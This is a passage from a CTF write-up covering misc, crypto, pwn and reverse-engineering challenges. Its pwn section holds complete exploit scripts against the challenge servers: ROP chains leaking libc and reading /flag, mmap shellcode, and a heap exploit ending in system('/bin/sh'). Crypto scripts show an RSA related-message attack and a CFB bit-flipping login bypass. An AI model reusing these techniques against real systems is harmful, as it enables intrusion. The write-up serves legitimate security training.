2e0a6df0c825261d0b418b0487e7968ccbe3ea95d2aefeb1b735d843d1b7c37cd79864176d474cd56a061dea539ba74bf295b4aeda1e1686a1f407df06cebacfcf85f5f8b464f821c510ab863da88f3b29e6394a5a41771ecc9a3220a67cd6789b7753a3712db8575b6b3b788de7aa88a924dd8bc711bf43fcafb133493be40b89c5b2ffb2f8fb1dc4118ddb3ab78a557e0b43000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000fccd1e1c080000000000f9bf3682aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab00707020000000040feaf8da0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa2aecc181000000000090ff6b23a8aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0a7b70200000000000e4ffda08aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaac21e1c080000000000f9bf3682aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab40787040000000082febff686010000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000080ad00504b01023f0014000000080025ad3d59adbf274e9b1400007f540600080024000000000000002000000000000000666c61672e7a69700a0020000000000001001800da6e6f3d7512db0100000000000000000000000000000000504b050600000000010001005a000000c11400000000
"""

raw = raw.replace("\n", "")
open("1.zip","ab+").write(bytes.fromhex(raw))
```





flag{5f5492c8-00e4-41a8-a7b1-ebd04b73a0d0}

## PvZ

`how much.zip`，进行一个爆破：

738，密码：`217eedd1ba8c592db97d0dbe54c7adfc`

解压：

```
M41b0lg3.png` 和 `Zz.png
```


Fix（1 拿来补右下角）:


扫描结果：

```Plain
D'`_q^K![YG{VDTveRc10qpnJ+*)G!~f1{d@-}v<)9xqYonsrqj0hPlkdcb(`Hd]#a`_A@VzZY;Qu8NMqKPONGkK-,BGF?cCBA@">76Z:321U54-21*Non,+*#G'&%$d"y?w_uzsr8vunVrk1ongOe+ihgfeG]#[ZY^W\UZSwWVUNrRQ3IHGLEiCBAFE>=aA:9>765:981Uvu-2+O/.nm+$Hi'~}|B"!~}|u]s9qYonsrqj0hmlkjc)gIedcb[!YX]\UZSwWVUN6LpP2HMFEDhHG@dDCBA:^!~<;:921U/u3,+*Non&%*)('&}C{cy?}|{zs[q7unVl2ponmleMib(fHG]b[Z~k
D'`_q^K![YG{VDTveRc10qpnJ+*)G!~f1{d@-}v<)9xqYonsrqj0hPlkdcb(`Hd]#a`_A@VzZY;Qu8NMqKPONGkK-,BGF?cCBA@">76Z:321U54-21*Non,+*#G'&%$d"y?w_uzsr8vunVrk1ongOe+ihgfeG]#[ZY^W\UZSwWVUNrRQ3IHGLEiCBAFE>=aA:9>765:981Uvu-2+O/.nm+$Hi'~}|B"!~}|u]s9qYonsrqj0hmlkjc)gIedcb[!YX]\UZSwWVUN6LpP2HMFEDhHG@dDCBA:^!~<;:921U/u3,+*Non&%*)('&}C{cy?}|{zs[q7unVl2ponmleMib(fHG]b[Z~k
```

图片名提示，https://malbolge.doleczek.pl/，贴进去就出了。

```
flag{5108a32f-1c7f-4a40-a4fa-fd8982e6eb49}
```

# Crypto

## xor

简单的异或

```Python
keyword = b'mimic'
cipher = '0b050c0e180e585f5c52555c5544545c0a0f44535f0f5e445658595844050f5d0f0f55590c555e5a0914'

cipher = bytes.fromhex(cipher)
key = keyword * (len(cipher)//5 + 1)
flag = b''
for i,j in zip(cipher, key):
    flag += bytes([i^j])
print(flag)

# flag{c1251858-71cb-02f3-5505-fb4bf64e879d}
```

## watermarking

```Python
from pwn import *
from Crypto.Util.number import *

context.log_level = 'debug'

def resultant(f, g, x):
    return f.sylvester_matrix(g, x).det()

def poly_gcd(f, g):
    while g.degree() != 1:
        f, g = g, f % g
    g = g.monic()
    return -g.list()[0]

class Gao:
    def __init__(self):
        self.conn = remote('pwn-75367b4dbf.challenge.xctf.org.cn', '9999', ssl=True)
        self.padding_len = 117
    
    def recv_params(self):
        elist = [3, 5]
        clist = []
        for i in range(2):
            self.conn.sendlineafter('> ', '1')
            self.conn.sendlineafter('> ', '2')
            if i == 0:
                self.conn.recvline()
                n = eval(self.conn.recvline())
            padding = '00' * self.padding_len
            self.conn.sendlineafter('> ', padding)
            c = int(self.conn.recvline(), 16)
            c = c * pow(256, -self.padding_len * elist[i], n) % n
            clist.append(c)
        return n, clist

    def gao_m(self, n, clist):
        PR.<x, y> = PolynomialRing(Zmod(n))
        f = x^3 - clist[0]
        g = (x + y * 2^1032)^5 - clist[1]
        h = resultant(f, g, x)
        PR.<z> = PolynomialRing(Zmod(n))
        h = h(0, z)
        ydiff = h.monic().small_roots(2^64, epsilon=0.05)[0]
        f = f(z, ydiff)
        g = g(z, ydiff)
        msg = poly_gcd(f, g)
        m = long_to_bytes(int(msg))[10:]
        return m

    def gao_submit(self, n, m):
        e = 65537
        msg = b'\x02' + b'\x77' * 8 + b'\x00' + m + b'\xC8' * self.padding_len
        m_ = bytes_to_long(msg)
        c = pow(m_, e, n)
        self.conn.sendlineafter('> ', '2')
        self.conn.sendlineafter('> ', f'{int(c):0256x}')

    def gao(self):
        n, clist = self.recv_params()
        m = self.gao_m(n, clist)
        self.gao_submit(n, m)
        self.conn.interactive()

if __name__ == '__main__':
    g = Gao()
    g.gao()
```

## CFBchall

```Python
import requests

url = 'http://127.0.0.1:5000/'

def fuck_0():
    data = {
        'action': 'restart',
    }
    res = requests.post(url, json=data)
    res.raise_for_status()
    res = res.json()

def get_fuck():
    username = 'admim'
    password = 'A' * 16 + '123456'
    data = {
        'action': 'register',
        'username': username,
        'password': password
    }
    res = requests.post(url, json=data)
    res.raise_for_status()
    res = res.json()
    ct = res['message'].split(' ')[-1]
    ct = bytes.fromhex(ct)
    return ct

def fuck(ct, i):
    msg = b'admin\x00123456\x01\x02\x03'
    ct = list(ct)
    ct[4] = ct[4] ^ ord('m') ^ ord('n')
    ct[5] = i

    data = {
        'action': 'login',
        'username': 'admin',
        'password': '123456',
        'token': bytes(ct).hex()
    }
    res = requests.post(url, json=data)
    res.raise_for_status()
    res = res.json()
    if 'privileges' in res['message']:
        print(res)
        return True
    else:
        return False

while True:
    print('Fucking...')
    fuck_0()
    ct = get_fuck()
    for i in range(256):
        if fuck(ct, i):
            exit()
```

# Pwn

## signin & revenge

```Python
from pwn import *
import ctypes

libc = ctypes.CDLL('./libc.so.6')
libc_c = ELF('./libc.so.6')
elf = ELF('./vuln')
context.arch = 'amd64'
pop_rdi = 0x401893
vuln = 0x4013C8
leave_ret = 0x401591
p = remote("pwn-56f2beb396.challenge.xctf.org.cn", 9999, ssl=True)
context.log_level = 'debug'

# p = process(['./ld-linux-x86-64.so.2', './vuln'], env={'LD_PRELOAD': libc_c.path})
p.send(b'1' * 14)
_ = p.recvuntil(b'1' * 14)
time = u32(p.recv(4))
log.success(f'rand seed: {time}')
libc.srand(time)

for _ in range(100):
    p.sendafter(b"Input the authentication code:", p64(libc.rand() % 100 + 1))

context.log_level = 'debug'
p.sendafter(b'>> ', p32(1))
p.sendafter(b'Index: ', p32(1))
p.sendafter(b'Note: ', b'a' * 256)
p.send(b'a' * 0x100 + p64(elf.bss() + 0x230) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(vuln))
leak = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc_c.address = leak - libc_c.sym['puts']
log.success(f'libc base: {hex(libc_c.address)}')
rop = ROP([libc_c])
rop.call(libc_c.sym['open'], [0x4041d0, 0, 0])
rop.call(libc_c.sym['read'], [3, 0x4049d0, 0x99])
rop.call(libc_c.sym['write'], [1, 0x4049d0, 0x99])
p.sendline((b'/flag'.ljust(16, b'\x00') + rop.chain()).ljust(0x100, b'\x00') + p64(0x4041d8) + p64(leave_ret))
p.interactive()ve()
```

## QWEN

```Bash
from pwn import *

#sh = process("./pwn1")
sh = remote("pwn-1a56c74dba.challenge.xctf.org.cn", 9999, ssl=True)
#context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
tob = lambda x: str(x).encode()
def set_chess_pos(x, y):
    sh.sendlineafter("请输入下棋的位置（行 列）：", f"{x} {y}".encode())

for i in range(5):
    set_chess_pos(i, i)
sh.sendafter(b'say?', b'flagflag'+p16(0x1508))
sh.sendlineafter(b']\n', b'N')
#context.log_level = 'debug'
set_chess_pos(u32(b'flag'), u32(b'flag'))       # 0x0804a02c

sh.sendlineafter(b'key\n', tob(0x6b8b4567))
sh.sendlineafter(b'in', b'/proc/self/maps')

sh.recvuntil(b'>>\n')
first = sh.recvuntil(b'\n', drop=True)
sh.recvuntil(b'\n')
sh.recvuntil(b'\n')
second = sh.recvuntil(b'\n', drop=True)
print(first, second)
elfbase = int(first.split(b'-')[0], 16)
libcbase = int(second.split(b'-')[0], 16)
print(hex(elfbase), hex(libcbase))
for i in range(5):
    set_chess_pos(i, i)
ogg = libcbase+0x10a2fc

log.info(f"ogg: {hex(ogg)}")
sh.sendafter(b'say?', b'flagflag'+p16(0x17B3))
sh.sendlineafter(b']\n', b'N')
set_chess_pos(u32(b'flag'), u32(b'flag'))       # 0x0804a02c

for i in range(5):
    set_chess_pos(i, i)
#gdb.attach(sh)
sh.sendafter(b'say?', b'\x00'*8+p64(ogg)+b'\x00'*0x20)
sh.sendlineafter(b']\n', b'N')

set_chess_pos(u32(b'shit'), u32(b'fuck'))       # 0x0804a02c

sh.interactive()
./pwn2 -c flagshit flag && cat flagshit
```

## ezcode

```Python
from pwn import *

context.arch = 'amd64'
sc = asm("""
mov ax, 0xa     
mov si, 0x7
shl edi, 12          
mov edx, esi
syscall
xor esi, esi
xchg esi, edi
jmp $-0x8
""").hex()
print(len(sc) // 2)
p = remote("pwn-88398a26cf.challenge.xctf.org.cn", 9999, ssl=True)
p.sendline(f'{{"shellcode":"{sc}"}}')
sc = b'\x90' * (len(sc) // 2) + asm("mov rsp, 0x9998c00")
sc += asm(shellcraft.open('/flag') + shellcraft.read(3, 0x9998800, 0x99) + shellcraft.write(1, 0x9998800, 0x99))
sleep(1)
p.sendline(sc)
p.interactive()
```

## guest book

```Python
from pwn import *

sh = process('./pwn')
sh = remote("pwn-b7de3fd7ec.challenge.xctf.org.cn", 9999, ssl=True)
context.terminal = ['tmux', 'splitw', '-h']
tob = lambda x: str(x).encode()

def add(idx, size):
    sh.sendlineafter(b'>', tob(1))
    sh.sendlineafter(b'index', tob(idx))
    sh.sendlineafter(b'size', tob(size))

def edit(idx, content):
    sh.sendlineafter(b'>', tob(2))
    sh.sendlineafter(b'index', tob(idx))
    sh.sendafter(b'content', content)

def remove(idx):
    sh.sendlineafter(b'>', tob(3))
    sh.sendlineafter(b'index', tob(idx))

def show(idx):
    sh.sendlineafter(b'>', tob(4))
    sh.sendlineafter(b'index\n', tob(idx))

# context.log_level = 'debug'
add(0, 0x520)
add(1, 0x520)
add(3, 0x510)
add(4, 0x600)
remove(0)
show(0)

libcbase = u64(sh.recv(6).ljust(8, b'\x00'))-0x21ace0
log.success(f'libcbase: {hex(libcbase)}')

add(5, 0x600)
edit(0, b'a'*0x10)
show(0)
sh.recvuntil(b'a'*0x10)
heap = u64(sh.recv(6).ljust(8, b'\x00'))
log.success(f'heap: {hex(heap)}')
payload = p64(libcbase+0x21b110)*2+p64(heap)+p64(libcbase+0x21a3c8-0x20)
edit(0, payload)
remove(3)
add(5, 0x600)
#remove(1)       # 0x520

remove(1)
edit(1, p64(0)*2)
remove(1)
edit(1, p64(0)*2)
remove(1)
edit(1, p64(0)*2)
remove(1)
edit(1, p64(0)*2)
remove(1)

def arb_alloc(target):
    edit(0, b'a'*0x70+p64(0)+p64(target))
    add(6, 0x520)

libc = ELF('./libc.so.6')
arb_alloc(libcbase+libc.symbols['__environ'])
show(6)
stack = u64(sh.recv(6).ljust(8, b'\x00'))
log.success(f'stack: {hex(stack)}')

#gdb.attach(sh)

arb_alloc(stack-0x148+0x70)
show(6)
elfbase = u64(sh.recv(6).ljust(8, b'\x00'))-0x3d80
log.success(f'elfbase: {hex(elfbase)}')

arb_alloc(elfbase+0x4060)
edit(6, p64(stack-0x148))
edit(0, b'a'*0x8+p64(libcbase+0x2a3e6)+p64(libcbase+0x000000000002a3e5)+p64(libcbase+libc.search(b'/bin/sh').__next__())+p64(libcbase+libc.symbols['system']))

sh.interactive()
```

# Reverse

## easyre

一堆垃圾指令，还有反调试，x64dbg附加上去下硬断调，有些运算会用xor和and替代

```C
#include <stdio.h>  
#include <stdint.h>  

void decipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {  
    unsigned int i;  
    uint32_t v0=v[0], v1=v[1], delta=0x9E3779B9, sum=delta*num_rounds;  
    for (i=0; i < num_rounds; i++) {  
        v1 -= (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);  
        sum -= delta;  
        v0 -= (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);  
    }  
    v[0]=v0; v[1]=v1;  
}

void encipher(unsigned int num_rounds, uint32_t v[2], uint32_t const key[4]) {  
    unsigned int i;  
    uint32_t v0=v[0], v1=v[1], sum=0, delta=0x9E3779B9;  
    for (i=0; i < num_rounds; i++) {  
        v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);  
        sum += delta;  
        v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);  
    }  
    v[0]=v0; v[1]=v1;  
} 

int main() {
    char enc[] = {0xA1, 0xE3, 0x51, 0x98, 0x86, 0x56, 0x76, 0x49, 0x6F, 0x6B, 0x2B, 0x81, 0xCF, 0xCE, 0x12, 0x96, 0xA2, 0x70, 0x35, 0x3C, 0x31, 0x62, 0x5C, 0xF1, 0xFA, 0x77, 0x6B, 0xAA, 0x9E, 0x6D, 0x05, 0xBE, 0xE8, 0x24, 0xA4, 0xF8, 0xDB, 0x23, 0x3A, 0x0B, 0x16, 0x20, 0xCC, 0x03, 0xAD, 0xB5, 0x2B, 0xA9, 0x34, 0x9F, 0x78, 0x1D, 0x2E, 0xB9, 0xF9, 0x9E, 0};
    uint32_t key[4] = {0xEF6FD9DB, 0xD2C273D3, 0x6F97E412, 0x72BFD624};
    for (size_t i = 0; i < 7; i++)
    {
        decipher(102, (uint32_t *)&enc[i*8], key);
    }
    for (size_t i = 0; i < 56; i++)
    {
        enc[i] = 127&(~enc[i]);
        if (enc[i] >= 0x40) {
            enc[i] -= 0x40;
        } else
        {
            enc[i] += 0x40;
        }
    }
    printf("%s\n", enc);
    // for (size_t num_rounds = 0; num_rounds < 200; num_rounds++)
    // {
    //     uint32_t test[2] = {0x0c0d0e0f, 0x08090a0b};
    //     encipher(num_rounds, test, key);
    //     if (test[0] == 0x2733c22d && test[1] == 0xfbcd82d9)
    //     {
    //         printf("num_rounds: %d\n", num_rounds);
    //     }
    // }
    
    
}
```

## Serv1ce

分析判断过程，可知提供了key和num给so里的check

```Python
public class MyService extends Service {
    private String input;
    private String key = "1liIl11lIllIIl11llII";
    private byte[] keyarray = new byte[64];
    int num = 9;
    ...
    public void onCreate() {
        this.num++;
        super.onCreate();
    }
    public int onStartCommand(Intent intent, int i, int i2) {
        this.num++;
        for (int i3 = 0; i3 < 64; i3++) {
            byte[] bArr = this.keyarray;
            String str = this.key;
            bArr[i3] = (byte) (((str.charAt(i3 % str.length()) - 'w') ^ 23) & 255);
        }
        if (intent != null) {
            this.input = intent.getStringExtra("input");
            Toast.makeText(getApplicationContext(), "Input Success", 1).show();
        }
        super.onStartCommand(intent, i, i2);
        return i;
    }
    ...
    public void onDestroy() {
        if (check(this.input, this.keyarray, this.num)) {
            Toast.makeText(getApplicationContext(), "You Are Right", 1).show();
        } else {
            Toast.makeText(getApplicationContext(), "Wrong", 1).show();
        }
        super.onDestroy();
    }
}
```

分析check，推测v8和v9为key和flag，v5为num

```Python
__int64 __fastcall Java_com_nobody_Serv1ce_MyService_check(JNIEnv *a1, __int64 a2, void *a3, void *a4, char a5)
{
  const char *v8; // x20
  jbyte *v9; // x21
  __int64 v10; // x8
  unsigned __int8 v11; // w10
  _BYTE v13[4]; // [xsp+4h] [xbp-Ch] BYREF
  __int64 v14; // [xsp+8h] [xbp-8h]

  v14 = *(_QWORD *)(_ReadStatusReg(ARM64_SYSREG(3, 3, 13, 0, 2)) + 40);
  v8 = (*a1)->GetStringUTFChars(a1, a3, v13);
  v9 = (*a1)->GetByteArrayElements(a1, a4, v13);
  if ( strlen(v8) != 36 )
    return 0LL;
  v10 = 0LL;
  while ( 1 )
  {
    v11 = (v8[v10] ^ v9[v10]) * a5;
    v8[v10] = v11;
    if ( v[v10] != v11 )
      break;
    if ( ++v10 == 36 )
      return 1LL;
  }
  return 0LL;
}
```

尝试逆运算，发现有解

```Python
ans = [0xB9, 0x32, 0xC2, 0xD4, 0x69, 0xD5, 0xCA, 0xFB, 0xF8, 0xFB, 0x80, 0x7C, 0xD4, 0xE5, 0x93, 0xD5, 0x1C, 0x8B, 0xF8, 0xDF, 0xDA, 0xA1, 0x11, 0xF8, 0xA1, 0x93, 0x93, 0xC2, 0x7C, 0x8B, 0x1C, 0x66, 0x01, 0x3D, 0xA3, 0x67]
key = "1liIl11lIllIIl11llII"
num = 11
rec = []
for i in range(64):
    rec.append(((ord(key[i % len(key)]) - ord('w')) ^ 23) & 0xFF)

flag = ""
for i in range(len(ans)):
    for j in range(0x20, 0x7F):
        if ((j ^ rec[i]) * num) & 0xFF == ans[i]:
            flag += chr(j)
            break
```

## A_game

有后门，导入函数有RegOpenKeyExA，交叉引用找到0x14001FA60，会解密一个混淆的powershell脚本并执行，dump一下，网上随便找个解混淆工具就可以一把梭：

```PowerShell
function enenenenene {
    param(
        $plaintextBytes,
        $keyBytes
    )
    # Initialize S and KSA
    $S = 0..255
    $j = 0
    for ($i = 0; $i -lt 256; $i++) {
        $j = ($j + $S[$i] + $keyBytes[$i % $keyBytes.Length]) % 256
        $temp = $S[$i]
        $S[$i] = $S[$j]
        $S[$j] = $temp
    }

    # PRGA and encryption
    $i = 0
    $j = 0
    $ciphertextBytes = @()
    for ($k = 0; $k -lt $plaintextBytes.Length; $k++) {
        $i = ($i + 1) % 256
        $j = ($j + $S[$i]) % 256
        $temp = $S[$i]
        $S[$i] = $S[$j]
        $S[$j] = $temp
        $t = ($S[$i] + $S[$j]) % 256
        $ciphertextBytes += ($plaintextBytes[$k] -bxor $S[$t])
    }

    # Return ciphertext as a string
    return $ciphertextBytes
}
function enenenenene1 {
    param(
        $inputbyte
    )
    $key = @(0x70, 0x6f, 0x77, 0x65, 0x72)
    $encryptedText = @();
    for ($k = 0; $k -lt $inputbyte.Length; $k++) {
        $encryptedText = enenenenene -plaintextBytes $inputbyte -keyBytes $key;
        $key = enenenenene -plaintextBytes $key -keyBytes $encryptedText;
    }
    return $encryptedText + $key;
}
function enenenenene2 {
    param(
        $inputbyte
    )
    $key = @(0x70, 0x30, 0x77, 0x65, 0x72)
    for ($k = 0; $k -lt $inputbyte.Length; $k++) {
        $inputbyte[$k] = $inputbyte[$k] + $key[$k % $key.Length]
    }
    return $inputbyte;
}
function enenenenene3 {
    param(
        $inputbyte
    )
    $key = @(0x70, 0x30, 0x77, 0x33, 0x72)
    for ($k = 0; $k -lt $inputbyte.Length; $k++) {
        $inputbyte[$k] = $inputbyte[$k] * $key[$k % $key.Length]
    }
    return $inputbyte;
}
$registryPath = 'HKCU:\Software\PacManX'

$valueName = 'MYFLAG'
$value = Get-ItemPropertyValue $registryPath $valueName
$plaintext = @($value) | ForEach-Object {
    $input = $_
    $plaintext = @()
    for ($i = 0; $i -lt $input.Length; $i++) {
        $plaintext += [int][char]$input[$i]
    }
    $plaintext
}
if ($plaintext.Length -ne 36) {
    Set-Content -Path "log.txt" -Value "ERROR"
    exit
}
$encrypted1Text = enENenenene2 -inputbyte (enenenENene2 -inputbyte (enenenenene3 -inputbyte (Enenenenene2 -inputbyte (enenenenene2 -inputbyte (enenenenene2 -inputbyte (enenenenene1 -input $plaintext))))))
$result = @(38304, 8928, 43673, 25957 , 67260, 47152, 16656, 62832 , 19480 , 66690, 40432, 15072 , 63427 , 28558 , 54606, 47712 , 18240 , 68187 , 18256, 63954 , 48384, 14784, 60690 , 21724 , 53238 , 64176 , 9888 , 54859 , 23050 , 58368 , 46032 , 15648 , 64260 , 17899 , 52782 , 51968 , 12336 , 69377 , 27844 , 43206 , 63616)
for ($k = 0; $k -lt $result.Length; $k++) {
    if ($encrypted1Text[$k] -ne $result[$k]) {
        Set-Content -Path "log.txt" -Value "ERROR"
        exit

    }

}
Set-Content -Path "log.txt" -Value "RIGHT"
```

解密：

```Python
import os


def rc4_encrypt(plaintext_bytes, key_bytes):
    # Initialize S and KSA
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key_bytes[i % len(key_bytes)]) % 256
        S[i], S[j] = S[j], S[i]

    # PRGA and encryption
    i = 0
    j = 0
    ciphertext_bytes = []
    for k in range(len(plaintext_bytes)):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        ciphertext_bytes.append(plaintext_bytes[k] ^ S[t])

    return bytes(ciphertext_bytes)


def enc_func1(input_bytes, key: bytearray = None):
    if key == None:
        key = bytearray([0x70, 0x6f, 0x77, 0x65, 0x72])
    encrypted_text = bytearray()
    for _ in range(len(input_bytes)):
        encrypted_text = rc4_encrypt(input_bytes, key)
        key = rc4_encrypt(key, encrypted_text)
    return bytes(encrypted_text + key)


def enc_func2(input_bytes):
    key = bytearray([0x70, 0x30, 0x77, 0x65, 0x72])
    encrypted_bytes = bytearray(input_bytes)
    for k in range(len(input_bytes)):
        encrypted_bytes[k] = encrypted_bytes[k] + key[k % len(key)]
    return bytes(encrypted_bytes)


def enc_func3(input_bytes):
    key = bytearray([0x70, 0x30, 0x77, 0x33, 0x72])
    encrypted_bytes = bytearray(input_bytes)
    for k in range(len(input_bytes)):
        encrypted_bytes[k] = encrypted_bytes[k] * key[k % len(key)]
    return bytes(encrypted_bytes)


def dec_f2(input_bytes):
    key = bytearray([0x70, 0x30, 0x77, 0x65, 0x72])
    encrypted_bytes = input_bytes
    for k in range(len(input_bytes)):
        encrypted_bytes[k] = encrypted_bytes[k] - key[k % len(key)]
    return encrypted_bytes


def dec_f3(input_bytes):
    key = bytearray([0x70, 0x30, 0x77, 0x33, 0x72])
    encrypted_bytes = input_bytes
    for k in range(len(input_bytes)):
        encrypted_bytes[k] = encrypted_bytes[k] // key[k % len(key)]
    return encrypted_bytes


def dec_f1(input_bytes):
    key = input_bytes[-5:]
    print(key)
    encrypted_text = input_bytes[:-5]
    key = rc4_encrypt(key, encrypted_text)
    print(key)
    encrypted_text = rc4_encrypt(encrypted_text, key)
    print(encrypted_text)
    return encrypted_text


plaintext_utf16 = ""
# dec_str = enc_func2(enc_func2(enc_func2(enc_func3(enc_func2(enc_func2(enc_func1(plaintext_utf16)))))))
result = [
    38304, 8928, 43673, 25957, 67260, 47152, 16656, 62832,
    19480, 66690, 40432, 15072, 63427, 28558, 54606, 47712,
    18240, 68187, 18256, 63954, 48384, 14784, 60690, 21724,
    53238, 64176, 9888, 54859, 23050, 58368, 46032, 15648,
    64260, 17899, 52782, 51968, 12336, 69377, 27844, 43206,
    63616
]
get_flag = dec_f2(dec_f2(dec_f2(dec_f3(dec_f2(dec_f2(result))))))
print(get_flag, len(get_flag))
print(dec_f1(get_flag))
```

## babyre

aes加密然后密文和下标转成bin拼起来生成16*12的01矩阵，然后验证，z3梭出密文然后解密就行：

```Python
from Crypto.Cipher import AES
from z3 import *

key = bytes([0x35, 0x77, 0x40, 0x2E, 0xCC, 0xA4, 0x4A, 0x3F, 0x9A, 0xB7, 0x21, 0x82, 0xF9, 0xB0, 0x1F, 0x35])
aes = AES.new(key, AES.MODE_ECB)
enc = []

for i in range(16):
    bs = [BitVec(f"b{j}", 1) for j in range(12)]
    s = Solver()
    t = i
    for j in range(4):
        s.add(bs[j] == t&1)
        t >>= 1
    v1 = bs[2] & bs[3] & bs[4] & (bs[6] ^ 1) & (bs[7] ^ 1) & bs[8] & ((bs[9] | bs[10] | bs[11]) ^ 1) & (bs[5] ^ 1) & (bs[1] ^ 1) | bs[2] & bs[4] & bs[6] & (bs[8] ^ 1) & (bs[9] ^ 1) & bs[11] & (bs[10] ^ 1) & (bs[7] ^ 1) & (bs[5] ^ 1) & (bs[3] ^ 1) & (bs[1] ^ 1) | bs[1] & (bs[3] ^ 1) & (bs[4] ^ 1) & (bs[5] ^ 1) & bs[6] & bs[7] & (bs[9] & bs[10] & bs[11]) & (bs[8] ^ 1) & (bs[2] ^ 1)
    v2 = bs[0] & bs[1] & bs[3] & bs[4] & bs[5] & bs[6] & bs[7] & (bs[9] ^ 1) & (bs[10] & bs[11]) & (bs[8] ^ 1) & (bs[2] ^ 1) | (bs[1] ^ 1) & (bs[2] ^ 1) & bs[3] & bs[4] & bs[5] & bs[7] & bs[8] & bs[10] & (bs[11] ^ 1) & (bs[9] ^ 1) & (bs[6] ^ 1) & (bs[0] ^ 1) | bs[0] & (bs[2] ^ 1) & bs[3] & bs[5] & bs[7] & bs[8] & bs[9] & bs[11] & (bs[10] ^ 1) & (bs[6] ^ 1) & (bs[4] ^ 1) & (bs[1] ^ 1) | bs[0] & bs[2] & bs[3] & bs[5] & bs[6] & bs[8] & bs[9] & (bs[10] ^ 1 & bs[11] ^ 1) & (bs[7] ^ 1) & (bs[4] ^ 1) & (bs[1] ^ 1) | (v1 | bs[1] & bs[2] & (bs[4] ^ 1) & bs[5] & (bs[7] ^ 1) & bs[8] & bs[9] & bs[11] & (bs[10] ^ 1) & (bs[6] ^ 1) & (bs[3] ^ 1)) & (bs[0] ^ 1)
    v3 = bs[0] & bs[1] & (bs[3] ^ 1) & (bs[4] ^ 1) & bs[5] & (bs[7] ^ 1) & (bs[8] ^ 1) & (bs[9] ^ 1) & (bs[10] & bs[11]) & (bs[6] ^ 1) & (bs[2] ^ 1) | (bs[1] ^ 1) & (bs[2] ^ 1) & (bs[3] ^ 1) & (bs[4] ^ 1) & bs[5] & (bs[7] ^ 1) & bs[8] & ((bs[9] | bs[10] | bs[11]) ^ 1) & (bs[6] ^ 1) & (bs[0] ^ 1) | bs[0] & bs[1] & bs[2] & (bs[4] ^ 1) & (bs[5] ^ 1) & bs[6] & bs[7] & (bs[9] ^ 1) & bs[10] & (bs[11] ^ 1) & (bs[8] ^ 1) & (bs[3] ^ 1) | bs[0] & bs[2] & (bs[4] ^ 1) & (bs[5] ^ 1) & bs[6] & ((bs[7] | bs[8] | bs[9] | bs[10] | bs[11]) ^ 1) & (bs[3] ^ 1) & (bs[1] ^ 1) | bs[0] & (bs[2] ^ 1) & (bs[3] ^ 1) & bs[4] & bs[5] & bs[6] & bs[7] & (bs[9] ^ 1) & bs[11] & (bs[10] ^ 1) & (bs[8] ^ 1) & (bs[1] ^ 1) | v2
    s.add(bs[1] & bs[3] & bs[5] & bs[7] & (bs[9] ^ 1) & bs[10] & (bs[11] ^ 1) & (bs[8] ^ 1) & (bs[6] ^ 1) & (bs[4] ^ 1) & (bs[2] ^ 1) & (bs[0] ^ 1) | bs[0] & bs[1] & bs[2] & bs[3] & (bs[5] ^ 1) & (bs[6] ^ 1) & bs[7] & (bs[9] ^ 1) & bs[10] & (bs[11] ^ 1) & (bs[8] ^ 1) & (bs[4] ^ 1) | v3 | bs[1] & bs[2] & bs[3] & bs[5] & bs[7] & ((bs[8] | bs[9] | bs[10] | bs[11]) ^ 1) & (bs[6] ^ 1) & (bs[4] ^ 1) & (bs[0] ^ 1) == 1)
    cond = bs[1] & bs[3] & bs[5] & bs[7] & (bs[9] ^ 1) & bs[10] & (bs[11] ^ 1) & (bs[8] ^ 1) & (bs[6] ^ 1) & (bs[4] ^ 1) & (bs[2] ^ 1) & (bs[0] ^ 1) | bs[0] & bs[1] & bs[2] & bs[3] & (bs[5] ^ 1) & (bs[6] ^ 1) & bs[7] & (bs[9] ^ 1) & bs[10] & (bs[11] ^ 1) & (bs[8] ^ 1) & (bs[4] ^ 1) | v3 | bs[1] & bs[2] & bs[3] & bs[5] & bs[7] & ((bs[8] | bs[9] | bs[10] | bs[11]) ^ 1) & (bs[6] ^ 1) & (bs[4] ^ 1) & (bs[0] ^ 1) == 1
    # print(f"i = {i}, cond = \n{simplify(cond)}")
    if s.check() == sat:
        m = s.model()
        print(m)
        enc.append(int(''.join([str(m[bs[j]].as_long()) for j in range(12)])[4:][::-1], 2))

print(enc)
msg = aes.decrypt(bytes(enc))
print(msg)
msg = list(msg)
fuck = "%02x%02x%02x%02x-%02x%02x-%02x%02x-%02x%02x-%02x%02x%02x%02x%02x%02x" % tuple(msg)
print(fuck)
```
